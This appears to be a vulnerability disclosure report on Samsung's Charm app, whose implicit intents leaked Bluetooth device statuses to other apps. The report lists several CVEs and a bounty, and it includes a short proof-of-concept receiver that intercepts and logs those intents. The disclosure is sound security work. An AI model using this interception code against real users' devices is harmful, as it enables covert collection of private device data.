


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Charm by Samsung</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.app.scharm</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.15</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.08.02</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36829">CVE-2022-36829</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36830">CVE-2022-36830</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33733">CVE-2022-33733</a>, <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-33734">CVE-2022-33734</a> (SVE-2022-0927)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$2120</td>
    </tr>
</table>

# Description

Oversecured report:



The app used implicit intents to broadcast the statuses of connected Bluetooth devices. Any third-party apps installed on the same device could listen to them without having any permissions.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="BluetoothGattUpdate" />
    </intent-filter>
    <intent-filter>
        <action android:name="NOTI.SET.ALARM.INTENT" />
    </intent-filter>
    <intent-filter>
        <action android:name="ConnectionState" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, getClass().getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
